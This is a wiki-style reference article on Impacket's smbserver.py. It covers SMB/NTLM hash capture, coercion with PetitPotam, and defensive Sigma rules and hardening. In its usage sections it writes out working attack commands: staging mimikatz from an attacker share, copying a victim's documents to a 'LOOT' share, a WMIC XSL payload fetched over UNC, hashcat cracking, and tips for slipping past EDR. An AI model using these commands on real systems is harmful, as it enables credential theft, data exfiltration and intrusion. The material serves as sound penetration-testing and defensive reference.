

title: "smbserver.py"
script: "examples/smbserver.py"
category: "SMB Tools"
status: "Published"
protocols:
  - SMB
  - NetBIOS
  - NTLM
ms_specs:
  - MS-SMB
  - MS-SMB2
  - MS-NLMP
  - MS-NMB
mitre_techniques:
  - T1557.001
  - T1187
  - T1105
  - T1048.003
  - T1110.002
auth_types:
  - anonymous
  - password
  - nt_hash
  - captured_netntlmv2
tags:
  - impacket
  - impacket/examples
  - category/smb_tools
  - status/published
  - protocol/smb
  - protocol/smb2
  - protocol/netbios
  - protocol/ntlm
  - technique/smb_server
  - technique/hash_capture
  - technique/netntlmv2_capture
  - technique/coercion_landing
  - technique/malicious_share
  - technique/file_transfer
  - mitre/T1557/001
  - mitre/T1187
  - mitre/T1105
  - mitre/T1048/003
aliases:
  - smbserver
  - impacket-smbserver
  - smb_server
  - malicious_smb_server


# smbserver.py

> **One line summary:** Launches a passive SMB server on the attacker's machine that exposes a local directory as a named share over the network, serving multiple offensive purposes: file transfer to and from compromised hosts, hash capture when clients authenticate (the NetNTLMv2 challenge response is logged for offline cracking with hashcat), landing point for coerced authentications from PetitPotam/PrinterBug/mitm6/WebDAV and similar tools, and serving files to LOLBins that accept UNC paths, while emphasizing the crucial distinction that captured NetNTLMv2 hashes are not directly usable for pass the hash but must first be cracked offline or relayed live via [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md).

| Field                                   | Value                                                                                                                                                                                          |
|  | - |
| Script                                  | `examples/smbserver.py`                                                                                                                                                                        |
| Category                                | SMB Tools                                                                                                                                                                                      |
| Status                                  | Published                                                                                                                                                                                      |
| Primary protocols                       | SMB, NetBIOS, NTLM                                                                                                                                                                             |
| Primary Microsoft specifications        | `[MS-SMB]`, `[MS-SMB2]`, `[MS-NLMP]`, `[MS-NMB]`                                                                                                                                               |
| MITRE ATT&CK techniques                 | T1557.001 LLMNR/NBT-NS Poisoning and SMB Relay, T1187 Forced Authentication, T1105 Ingress Tool Transfer, T1048.003 Exfiltration Over Unencrypted Non-C2 Protocol, T1110.002 Password Cracking |
| Authentication types the server accepts | Anonymous (default) or Password/NT hash if configured; incoming NetNTLMv2 responses are captured regardless                                                                                    |
| First appearance in Impacket            | Early Impacket (one of the foundational example tools)                                                                                                                                         |
| Original author                         | Alberto Solino (`@agsolino`)                                                                                                                                                                   |


## Prerequisites

This article builds on:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`smbclient.py`](smbclient.md) for SMB session foundations, the dialects (SMB1/SMB2/SMB3), share semantics, and NTLM mechanics. This article focuses on the server side rather than repeating foundations.
- [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md) for the NTLM relay context. `smbserver.py` captures; `ntlmrelayx.py` relays. The distinction between these modes is central to this article.


## What it does

`smbserver.py` runs a passive SMB server process that listens on a TCP port (default 445) and accepts incoming SMB connections. The server exposes a single share backed by a local directory on the attacker's filesystem, responding to client operations (file reads, writes, directory listings) against that directory.

The tool is unusual in the Impacket example ecosystem because it acts as a server, not a client. Most Impacket tools initiate outbound connections to Windows targets; `smbserver.py` instead waits for Windows clients to connect to the attacker. This inverts the typical workflow and enables a set of attacker techniques that depend on the attacker being the destination of authentication or file operations rather than the source.

The tool serves multiple related purposes:

- **File transfer.** Host a share at a local path on the attacker's machine. A compromised Windows host can copy files to or from the share using standard SMB clients (`net use`, `copy`, `xcopy`, `robocopy`). Useful for both ingress (delivering tools to the target) and egress (exfiltrating data from the target).
- **Hash capture.** When a client attempts NTLM authentication to the server, the tool logs the captured NetNTLMv2 challenge response. The captured value is not directly usable for pass the hash (it is a response, not a hash), but can be cracked offline with `hashcat` mode 5600 if the password is weak.
- **Coercion landing point.** Tools like PetitPotam, PrinterBug/SpoolSample, mitm6, DFSCoerce, and Coercer trigger outbound SMB authentication from target Windows hosts to an attacker specified UNC path. `smbserver.py` can be that destination, capturing the authentication or providing a named share for further interaction.
- **LOLBin target.** Various Windows binaries (`certutil`, `regsvr32`, `wmic`, `wininit`, and more) accept UNC paths and reach out to SMB shares. A malicious share hosted by `smbserver.py` can be a payload delivery or data exfiltration channel for these tools when they are coerced into touching an attacker URL.

What `smbserver.py` does not do: NTLM relay. Captured authentication attempts are logged for offline cracking, not forwarded to a different server for live authentication replay. For relay, use [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md), which uses the same underlying `smbserver` module internally but adds the relay logic on top.


## Why it exists

Client tools dominate the Impacket example suite because attackers typically come to systems, not the other way around. But there are specific attack patterns where being the server matters:

**Authentication coercion.** A large category of modern AD attacks involves triggering authentication from a target to a location the attacker controls. Without a server to receive those authentications, the coercion is useless. Before `smbserver.py` (or equivalent tools like Responder), the only option was running a genuine Samba server, which required more configuration and did not log the NTLM exchange in attacker useful form.

**Hash capture in the pre relay era.** Before `ntlmrelayx.py` (and its precursor `smbrelayx.py`) existed, capturing NTLM hashes for offline cracking was the primary use of a malicious SMB server. Even with relay available, hash capture remains useful when the environment blocks relay (SMB signing enforced, no writable relay targets available) but still permits authentication to arbitrary UNC paths.

**File hosting for ingress and egress.** Windows accepts UNC paths universally. Any command that takes a file path (`copy`, `rundll32`, `regsvr32`, and so on) accepts `\\attacker\share\file`. An attacker controlled SMB server becomes a file delivery mechanism that does not require HTTP listeners, does not require DNS changes, and blends into normal Windows traffic patterns.

Alberto Solino built `smbserver.py` as one of the original Impacket example tools, part of the toolkit's foundation. The implementation has remained stable over time; SMB1 is fully supported, SMB2 has been experimentally supported via the `-smb2support` flag for years. The fact that SMB2 remains labeled experimental is itself notable: many modern Windows clients will not negotiate SMB1 at all by default, making the flag effectively required in 2026.

The tool exists because attackers need a server component, and building even a minimal SMB server that speaks enough of the protocol to be useful is substantial work. `smbserver.py` hides that work behind a simple command line.


## The protocol theory

The client side SMB and NTLM foundations are in [`smbclient.py`](smbclient.md) and [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md). This section focuses on the server side and the specific hash capture mechanics.

### Server side NTLM handshake

When a client connects to `smbserver.py` and attempts authentication, the three message NTLM handshake plays out:

1. **Client → Server: NEGOTIATE_MESSAGE.** The client advertises its NTLM capabilities.
2. **Server → Client: CHALLENGE_MESSAGE.** The server responds with a random 8 byte challenge (cryptographic nonce) plus server information.
3. **Client → Server: AUTHENTICATE_MESSAGE.** The client computes the response using its NT hash and the server's challenge, and returns the response.

The critical detail for hash capture: the client's AUTHENTICATE_MESSAGE contains the NetNTLMv2 response, which is a function of the NT hash and the challenge. The server receives this response and can log it. With the challenge (known to the server) and the response (in the logged message), an attacker has enough information to attempt offline brute force against the NT hash by computing NetNTLMv2 responses for candidate passwords and checking for a match.

### What gets logged

The captured response is logged in a format compatible with `hashcat` mode 5600:

```text
user::domain:challenge:NTProofStr:NTLMv2Response
```

- **user**: the sAMAccountName the client tried to authenticate as.
- **domain**: the domain the account belongs to.
- **challenge**: the 8 byte random challenge (hex encoded) the server sent.
- **NTProofStr**: the first 16 bytes of the HMAC computation from the NTLMv2 response.
- **NTLMv2Response**: the remainder of the response, containing the blob of client data that went into the HMAC.

`hashcat -m 5600 captured_hashes.txt wordlist.txt` attempts dictionary attacks. `hashcat -m 5600 captured_hashes.txt -a 3 ?a?a?a?a?a?a?a?a` attempts brute force. The difficulty scales exponentially with password length and complexity; 8 character passwords from the `rockyou.txt` wordlist crack in seconds; strong 14+ character passwords may be infeasible.

### Why it is not relay

A common confusion: captured NetNTLMv2 hashes cannot be used directly for authentication. The response incorporates the specific challenge the attacker's server sent. If the attacker tries to replay the response to a different server, that server will have a different challenge, and the response will not validate.

To use a captured authentication without cracking, the attacker must **relay** it: forward the client's AUTHENTICATE_MESSAGE to a target server in real time while the authentication is still active, so the server receives the response keyed to its own challenge. This is what [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md) does and what `smbserver.py` does not.

The two modes are complementary:

- **`smbserver.py` (capture mode)** is useful when relay targets are all hardened (SMB signing enforced) but offline cracking is feasible.
- **`ntlmrelayx.py` (relay mode)** is useful when live relay targets exist (SMB signing not enforced) but password cracking would be infeasible.

### SMB1 versus SMB2 support

The tool defaults to SMB1. Modern Windows clients (Windows 10 and later, default configuration) refuse to negotiate SMB1 for security reasons (the protocol has multiple unpatched issues including EternalBlue). Connections from these clients fail at negotiation unless `-smb2support` is enabled.

The `-smb2support` flag is marked experimental in the tool's help text. In practice it works for most uses but has rough edges:

- Certain SMB2 features (leasing, durable handles, multi channel) are not fully implemented.
- Windows 11 and Windows Server 2022 clients sometimes behave differently than older clients.
- Signing enforcement is inconsistent when SMB2 is enabled.

For modern deployments, `-smb2support` is effectively required. For interaction with older or legacy Windows systems (or Linux clients that still support SMB1), omit the flag for stability.

### Share authentication modes

The tool supports two modes for accepting connections:

**Anonymous mode (default).** No credentials required to connect. The server accepts any incoming SMB session and grants access to the share. Used for maximum compatibility, particularly for coercion attacks where the coercing tool does not supply credentials.

**Authenticated mode (`-username`, `-password` or `-hashes` specified).** The server requires specific credentials. Clients must supply the configured username and password (or hash). Used when:

- Blending in with legitimate corporate file servers (which typically require authentication).
- Bypassing EDR products that flag anonymous SMB connections to external hosts.
- Ensuring only authorized testers can access a share hosting sensitive tooling during an engagement.

### NTLM ESS/SSP and the -dropssp flag

Extended Session Security (ESS) is the mechanism that makes NTLMv2 session keys bind to specific server state. It is also what enables several modern NTLM relay defenses like MIC (Message Integrity Check) and some channel binding behaviors.

The `-dropssp` flag disables NTLM ESS/SSP negotiation. This has two effects:

- Pushes clients to use NTLMv1 instead of NTLMv2 if they support the downgrade. NTLMv1 is cryptographically weak and can be cracked dramatically faster than NTLMv2 (rainbow tables exist for NTLMv1, none are feasible for NTLMv2).
- May enable some attack patterns that require the specific NTLMv1 response format.

Modern Windows clients typically refuse to downgrade to NTLMv1 by default. Credential Guard and various Group Policy settings actively block NTLMv1 use. The flag is rarely useful in modern environments but remains for interaction with legacy systems.


## How the tool works internally

The script itself is small; most of the complexity is in the `impacket.smbserver.SimpleSMBServer` class.

1. **Argument parsing.** Share name and path (positional), plus all the flags documented below.

2. **Server instantiation.** Creates a `SimpleSMBServer` instance bound to the specified listen address and port. For IPv6, sets the `SMBSERVER.address_family` to `AF_INET6`.

3. **Share registration.** Calls `server.addShare(shareName, sharePath, comment)` to register the local directory as an SMB share.

4. **Credential configuration.** If `-username` was specified, calls `server.addCredential(username, uid, lmhash, nthash)`. If only `-username` without `-password`/`-hashes`, prompts for a password.

5. **SMB2 support.** If `-smb2support` was specified, sets the appropriate flags on the server instance.

6. **Output redirection.** If `-outputfile` was specified, configures logging to write to the file in addition to stdout.

7. **Server start.** Calls `server.start()`. This enters the main loop:
    - Accept incoming TCP connections on the listen port.
    - For each connection, instantiate an SMB session handler.
    - The handler processes SMB packets, mapping them to local filesystem operations against the shared directory.
    - All authentication activity is logged (username, domain, challenge, response).

8. **Protocol handling within the server module.** The `SimpleSMBServer` implements the SMB1 state machine and (experimentally) the SMB2 state machine:
    - Negotiate protocol: respond with supported dialects and server capabilities.
    - Session Setup: handle NTLM challenge response; log captured responses.
    - Tree Connect: grant access to the configured share.
    - Create/Open: map incoming file operations to local filesystem.
    - Read/Write: read from or write to local files.
    - Close: clean up file handles.
    - Tree Disconnect, Logoff: clean up session state.

9. **Concurrent connections.** The server handles multiple simultaneous client connections. Each gets its own session state.

10. **Signal handling.** The server runs in the foreground; operators stop it with Ctrl+C.

The notable design simplification: the server does not actually enforce the authentication credentials strongly. Depending on the client's NTLM implementation and the negotiated parameters, some clients may be granted access even when their credentials would not validate against a real AD DC. The tool's purpose is attacker convenience, not security enforcement. Operators should not use `smbserver.py` as a legitimate file server for sensitive content.


## Authentication options

The tool's authentication configuration is entirely server side (which credentials the server requires from clients). There is no client side authentication since the tool does not initiate any connections.

### Anonymous mode (default)

```bash
sudo smbserver.py share_name /path/to/share -smb2support
```

No credentials specified. Any client can connect. Maximum compatibility, lowest operational security.

### Password authenticated mode

```bash
sudo smbserver.py -username backup -password 'S3cure!' BACKUP /tmp -smb2support
```

Requires clients to authenticate with `backup`/`S3cure!`. Clients must supply both domain (typically left empty or `WORKGROUP`) and these credentials.

### NT hash authenticated mode

```bash
sudo smbserver.py -username backup -hashes :<nthash> BACKUP /tmp -smb2support
```

Same as password mode but accepts an NT hash instead. Useful when the attacker already has a hash from credential extraction.

### Root privileges required

Port 445 is a privileged port on Linux, requiring root to bind. `sudo` (or equivalent) is required. Running as non root requires specifying `-port <unprivileged_port>` and having clients connect to that port, which does not work for most legitimate scenarios (Windows clients default to port 445; changing it requires registry modification on the client).

Alternative: use Linux capabilities to grant port binding without full root:

```bash
sudo setcap 'cap_net_bind_service=+ep' $(which python3)
smbserver.py share /path  # now works as non-root
```

### Minimum privileges required (of the attacker)

- Root or `CAP_NET_BIND_SERVICE` capability to bind port 445.
- Filesystem read/write access to the shared directory.
- Network reachability to the target (target must be able to reach the attacker's IP).


## Practical usage

### Simple file server for ingress

```bash
sudo smbserver.py -smb2support TOOLS /home/attacker/tools
```

Hosts `/home/attacker/tools` as the `TOOLS` share. On a compromised Windows host:

```cmd
net use Z: \\10.0.0.5\TOOLS
copy Z:\mimikatz.exe C:\Windows\Temp\
dir Z:\
```

Classic workflow. The attacker drops tools in `/home/attacker/tools` and the compromised host copies them via mapped drive or direct UNC reference.

### Exfiltration destination

```bash
sudo smbserver.py -smb2support LOOT /home/attacker/loot
```

On the compromised host:

```cmd
copy C:\Users\victim\Documents\*.docx \\10.0.0.5\LOOT\
robocopy C:\Database \\10.0.0.5\LOOT\Database /E
```

The attacker's `/home/attacker/loot` fills up with the exfiltrated content. Network traffic is SMB on port 445, which is outbound-blocked in most enterprises but frequently permitted on pentest scope networks or is the entire point of what the tester is demonstrating.

### Hash capture for coerced authentication

```bash
# Terminal 1: start the server in anonymous mode
sudo smbserver.py -smb2support CAPTURE /tmp/capture

# Terminal 2: trigger authentication via PetitPotam
python3 PetitPotam.py -u lowpriv -p password 10.0.0.5 dc01.corp.local
```

The DC coerced by PetitPotam tries to authenticate to `\\10.0.0.5\CAPTURE`. `smbserver.py` logs the resulting NetNTLMv2 challenge response. Output looks like:

```text
[*] Incoming connection (10.0.0.10,49231)
[*] AUTHENTICATE_MESSAGE (CORP\DC01$,DC01)
[*] User DC01\DC01$ authenticated successfully
[*] DC01$::CORP:1122334455667788:6a8a8765d9e7c4e1a8b9c7d6e5f4a3b2:0101000000000000...
```

The last line is the hashcat mode 5600 format. Copy it to a file and crack:

```bash
hashcat -m 5600 captured.txt rockyou.txt --username
```

For computer accounts (`DC01$`), cracking is often infeasible because computer account passwords are randomly generated and 120 characters long. For user accounts with weak passwords, cracking often succeeds in under an hour.

### Hash capture for legitimate users via coercion

```bash
# Terminal 1
sudo smbserver.py -smb2support USER_CAPTURE /tmp/capture

# Terminal 2: trigger authentication via a document containing a UNC link
# (Word, Excel, link-bearing email - any of these can trigger when the
# user opens the document)
```

When a user opens the document, Office attempts to fetch the embedded resource from the UNC path, which triggers SMB authentication. The user's NetNTLMv2 hash is captured. Cracking a user password with `rockyou.txt` or targeted wordlists often succeeds.

### Authenticated share for operational security

```bash
sudo smbserver.py -username corp_backup -password 'Backup2026!' \
  -comment 'Corporate Backup Share' BACKUP /tmp/share -smb2support
```

Requires clients to authenticate with specific credentials. This defeats simple EDR rules that flag anonymous SMB connections to external hosts. Combined with a realistic share name and comment, the share blends into corporate file server patterns.

### File serving for LOLBin execution

```bash
sudo smbserver.py -smb2support DEPLOY /tmp/deploy
# Place a payload in /tmp/deploy/payload.xsl
```

Then on the target (via any execution primitive):

```cmd
wmic os get /format:"\\10.0.0.5\DEPLOY\payload.xsl"
```

WMIC fetches and executes the XSL file. This is a classic LOLBin technique documented in LOLBAS ("Living Off the Land Binaries And Scripts"). The XSL file can include arbitrary VBScript or JScript.

Other LOLBin targets that accept UNC paths:

- `certutil` for file download.
- `regsvr32` for scriptlet execution (`scrobj.dll`).
- `rundll32` with URL moniker functions.
- `msbuild` for XML project files containing tasks.

### IPv6 listening

```bash
sudo smbserver.py -6 -smb2support SHARE /tmp/share
```

Listens on IPv6. Paired with mitm6 for IPv6 based coercion attacks.

### Custom port

```bash
smbserver.py -port 4445 -smb2support SHARE /tmp/share
```

Runs on a non privileged port. Does not require root. Clients must explicitly connect to port 4445, which requires manual intervention on Windows (the default client only uses 445). Useful for CTFs and testing scenarios.

### Output file logging

```bash
sudo smbserver.py -smb2support -outputfile /var/log/smbcapture.log SHARE /tmp/share
```

Logs all server output to the specified file in addition to stdout. Useful for long running engagements where the operator is not watching the terminal continuously.

### Key flags

| Flag | Meaning |
|:---|:---|
| `shareName` (positional) | Name of the share (clients use `\\host\<shareName>`). |
| `sharePath` (positional) | Local directory path to serve. |
| `-comment <text>` | Share description shown in `net view` output. |
| `-username <n>` | Require authentication with this username. |
| `-password <p>` | Password for the configured username. |
| `-hashes <LM:NT>` | NTLM hash alternative to password. |
| `-ip <addr>` | Listen interface (default 0.0.0.0, all interfaces). |
| `-port <port>` | TCP port (default 445). |
| `-6`, `--ipv6` | Listen on IPv6. |
| `-smb2support` | Enable experimental SMB2 support. |
| `-dropssp` | Disable NTLM ESS/SSP (forces NTLMv1 downgrade attempts). |
| `-outputfile <path>` | Log output to file. |
| `-ts` | Add timestamps to log output. |
| `-debug` | Verbose debug output. |


## What it looks like on the wire

The tool is the server in the exchange, so wire patterns are the inverse of what [`smbclient.py`](smbclient.md) produces. What follows describes what an observer sees between the client (usually a victim) and the server (the attacker).

### Session establishment

- Client initiates TCP connection to attacker's port 445.
- Client sends SMB NEGOTIATE request advertising dialects.
- Server responds with SMB NEGOTIATE_RESPONSE with its capabilities and the NTLM challenge (if signing is not negotiated yet, the challenge is in the negotiate response; otherwise it comes in session setup).

### Authentication

- Client sends SMB SESSION_SETUP with its NTLM NEGOTIATE_MESSAGE.
- Server responds with STATUS_MORE_PROCESSING_REQUIRED containing CHALLENGE_MESSAGE.
- Client sends SMB SESSION_SETUP with AUTHENTICATE_MESSAGE.
- Server responds with SUCCESS.

### Share access

- Client sends TREE_CONNECT to `\\server\share`.
- Server responds with granted access.
- Client performs CREATE/OPEN on file paths.
- Client performs READ/WRITE operations.

### Wireshark filters

```text
smb                                   # SMB1 traffic
smb2                                  # SMB2 traffic
ntlmssp.messagetype == 0x00000003      # AUTHENTICATE_MESSAGE (contains captured response)
tcp.dstport == 445                    # traffic to the server
```

### Captured response extraction

The NetNTLMv2 response is in the AUTHENTICATE_MESSAGE's NtChallengeResponse field. Wireshark parses this automatically when NTLMSSP is enabled. The specific fields to observe:

- `ntlmssp.ntlmv2_response.hmac`: the NT Proof String (first 16 bytes).
- `ntlmssp.ntlmv2_response.ntlmv2_response`: the blob that went into the HMAC.
- `ntlmssp.ntlmv2_response.challenge`: the 8 byte server challenge.
- `ntlmssp.auth.username`: the username that was attempted.
- `ntlmssp.auth.domain`: the domain.

Reconstructing the hashcat format from these fields is straightforward: `username::domain:challenge:ntproofstr:ntlmv2_response`.


## What it looks like in logs

Because the tool runs on the attacker's machine, the "logs" most relevant to the attack are the server's own output, not Windows event logs. This is inverted from the other articles in the wiki.

### The server's stdout / output file

Every connection produces log entries. Key lines:

```text
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0  # SRVSVC
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0  # WKSSVC
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.0.0.10,49231)
[*] AUTHENTICATE_MESSAGE (CORP\victim,WS01)
[*] User CORP\victim authenticated successfully
[*] victim::CORP:aabbccdd:6a8a8765d9e7c4e1:0101000000000000...
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:SHARE)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
```

The captured hash line is the most important output. Everything before the double colon is the username and domain; everything after is the hash material in hashcat format.

### Observable from the victim's side

While the tool itself does not produce victim side logs directly, the SMB activity it induces does appear in Windows logs:

**Event ID 4624 / 4625: Logon.** If the client attempts NTLM authentication to the attacker's server and receives SUCCESS, a 4624 may fire locally depending on the client application. Failures produce 4625.

**Connection to unusual IP.** Endpoint security products may log or alert on outbound SMB connections to non corporate IPs. The effectiveness depends on the product and its baseline of legitimate SMB destinations.

**DNS queries.** The client typically resolves the UNC path's hostname via DNS first (or via LLMNR/NBT-NS as fallback). DNS queries for external or spoofed names are a detection opportunity.

### Detection on the victim side: firewall-level

Egress firewalls that block outbound SMB (port 445, 139) prevent the entire attack class. Unfortunately, most enterprise networks permit workstation outbound SMB because it simplifies certain legitimate workflows (home VPN access to file shares, mobile device sync, etc.).

### Starter Sigma rules

Sigma rules on the victim side:

```yaml
title: Outbound SMB to External IP
logsource:
  product: windows
  category: network_connection
detection:
  selection:
    DestinationPort:
      - 445
      - 139
  filter_internal:
    DestinationIp|startswith:
      - '10.'
      - '172.16.'
      - '172.17.'
      - '172.18.'
      - '172.19.'
      - '172.20.'
      - '172.21.'
      - '172.22.'
      - '172.23.'
      - '172.24.'
      - '172.25.'
      - '172.26.'
      - '172.27.'
      - '172.28.'
      - '172.29.'
      - '172.30.'
      - '172.31.'
      - '192.168.'
  condition: selection and not filter_internal
level: high
```

Flags outbound SMB to any non RFC1918 address. Very high fidelity in environments where outbound SMB is not expected.

```yaml
title: SMB Authentication from Document Open
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: 3    # NetworkConnect
    Image|endswith:
      - 'WINWORD.EXE'
      - 'EXCEL.EXE'
      - 'POWERPNT.EXE'
    DestinationPort: 445
  condition: selection
falsepositives:
  - Documents with legitimate embedded UNC references to corporate file servers.
level: medium
```

Catches the document based coercion pattern where opening a document triggers SMB authentication.


## Detection and defense

### Detection opportunities

The tool itself runs on the attacker's side, so traditional "detect the tool" rules do not apply. Detection focuses on the activity it enables:

**Outbound SMB to external IPs.** The Sigma rule above. High fidelity when outbound SMB is not expected.

**DNS or LLMNR queries for spoofed server names.** Clients resolving attacker supplied hostnames typically traverse DNS or multicast resolution first. Unusual queries can be anomaly signals.

**Process network activity correlation.** Office applications making SMB connections to unusual hosts is particularly suspicious. Sysmon event 3 combined with process identity is an effective detection input.

**Coercion attempt correlation.** If the environment has detection for PetitPotam, PrinterBug, DFSCoerce, or other coercion tools (see [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md) detection section), those trigger alongside outbound SMB to the attacker as a cleaner correlation.

**Microsoft Defender for Identity.** MDI detects several SMB based attack patterns including some that involve attacker hosted SMB servers.

### Preventive controls

The defensive posture focuses on preventing authentication from reaching attacker servers and preventing damage from captured hashes.

- **Block outbound SMB at the egress firewall.** Block ports 445 and 139 outbound from workstations, member servers, and domain controllers. Allow only specific authorized destinations (if any). This single control blocks many Impacket based attack chains in their entirety.
- **Disable LLMNR, NBT-NS, mDNS.** These fallback name resolution protocols enable Responder style poisoning and are the primary path for accidental authentication to attacker controlled hosts. Group Policy can disable all three.
- **Disable IPv6 SLAAC or filter DHCPv6.** Blocks mitm6 from positioning as a malicious DNS server. Windows Firewall rule for DHCPv6 inbound filtering is the standard mitigation.
- **Patch and harden coercion surfaces.** PetitPotam (MS-EFSR), PrinterBug (MS-RPRN), DFSCoerce (MS-DFSNM). Keep these patched and consider disabling them where not needed (Print Spooler on DCs in particular).
- **Enforce strong password policies.** Captured NetNTLMv2 hashes are only useful when crackable. Long, complex passwords defeat offline brute force within any reasonable time window.
- **Use Protected Users group.** Members cannot use NTLM at all; they must use Kerberos. Eliminates the hash capture attack vector entirely for those accounts.
- **Deploy Credential Guard.** Protects credentials on the workstation. Does not prevent hash capture directly but limits the utility of cracked credentials.
- **Disable NTLMv1.** Via Group Policy. Prevents the `-dropssp` downgrade attack.
- **Monitor authentication anomalies.** Domain users authenticating from unusual sources (attacker IPs) is a detection signal. Microsoft Defender for Identity and various UEBA products flag this behavior.


## Related tools and attack chains

`smbserver.py` is the second SMB Tools article after [`smbclient.py`](smbclient.md). Where `smbclient.py` handles client side SMB operations (reading from and writing to remote shares), `smbserver.py` handles server side SMB (hosting a share for clients to connect to).

### Related Impacket tools

**[`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md)** uses the same `impacket.smbserver` module internally as its SMB listener. When `ntlmrelayx.py` is running with SMB support (which is the default), it performs the same hash capture as `smbserver.py`, but also performs relay. Think of `ntlmrelayx.py` as a superset of `smbserver.py` for SMB based capture; the simpler `smbserver.py` is useful when relay is not needed or when the additional complexity of `ntlmrelayx.py` is not wanted.

**[`smbclient.py`](smbclient.md)** is the direct counterpart. Operators testing their `smbserver.py` configuration typically use `smbclient.py` to connect and verify.

**[`smbexec.py`](../04_remote_execution/smbexec.md)** SERVER mode uses a miniature version of this same server internally. Not user visible, but the implementations share code.

### Related external tools

- **Responder** at `https://github.com/SpiderLabs/Responder`. Combines LLMNR/NBT-NS poisoning with an SMB server that captures hashes, similar to `smbserver.py` but with built in coercion. Responder is typically preferred when the goal is opportunistic capture; `smbserver.py` is preferred when a specific UNC path must be hosted precisely.
- **Inveigh** at `https://github.com/Kevin-Robertson/Inveigh`. Windows equivalent of Responder + `smbserver.py`.
- **mitm6** at `https://github.com/dirkjanm/mitm6`. IPv6 coercion tool that pairs with SMB servers.
- **Coercer** at `https://github.com/p0dalirius/Coercer`. Consolidated coercion tool that forces targets to authenticate to a specified SMB server.

### Canonical hash capture chain



The decision between capture (`smbserver.py`) and relay (`ntlmrelayx.py`) depends on whether the captured principal's password is crackable and whether viable relay targets exist. Smart operators start with both in parallel: capture with `smbserver.py` and relay with `ntlmrelayx.py`, falling back to whichever path succeeds first.


## Further reading

- **`[MS-SMB]`: Server Message Block (SMB) Protocol.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-smb/`. SMB1 specification.
- **`[MS-SMB2]`: Server Message Block (SMB) Protocol Versions 2 and 3.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/`. SMB2/SMB3 specification.
- **`[MS-NLMP]`: NT LAN Manager (NTLM) Authentication Protocol.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/`. NTLM specification. Essential for understanding the capture mechanism.
- **hashcat wiki on mode 5600 (NetNTLMv2).** `https://hashcat.net/wiki/`. Practical cracking guidance.
- **LOLBAS Project.** `https://lolbas-project.github.io/`. Catalog of Windows binaries that accept UNC paths for attacker misuse.
- **Microsoft "Preventing SMB Traffic from Lateral Connections."** `https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/preventing-smb-traffic-from-lateral-connections`. Microsoft guidance on limiting SMB to prevent these attacks.
- **SpiderLabs Responder.** `https://github.com/SpiderLabs/Responder`. The most widely used alternative for hash capture, often paired with `smbserver.py`.
- **The Hacker Tools "smbserver.py"** at `https://tools.thehacker.recipes/impacket/examples/smbserver.py`. Quick reference with command line options.
- **UncleSp1d3r "Master SMB Operations"** at `https://unclesp1d3r.github.io/posts/master-smb-operations-impacket-conquer-windows-shares/`. Recent (2026) practical walkthrough of the Impacket SMB tool suite.
- **MITRE ATT&CK T1187 Forced Authentication** at `https://attack.mitre.org/techniques/T1187/`. Authoritative reference for the forced authentication technique class.
- **MITRE ATT&CK T1557.001** at `https://attack.mitre.org/techniques/T1557/001/`. LLMNR/NBT-NS Poisoning and SMB Relay.

If you want to internalize the mechanism, run `smbserver.py -smb2support -debug TEST /tmp/test` in one terminal and connect with `smbclient -L \\\\localhost` from another. Watch the full SMB negotiation and session setup in the server's debug output. Then try connecting with a Windows client (`net view \\<attacker_ip>`) to see how Windows specifically behaves. For hash capture, set up a Windows host with a scheduled task or startup script that touches the UNC path, and observe the captured NetNTLMv2 response in the server output. Once you have seen the full flow end to end, the relationship between `smbserver.py` (capture), `ntlmrelayx.py` (relay), and the various coercion tools that supply authenticated clients becomes obvious.
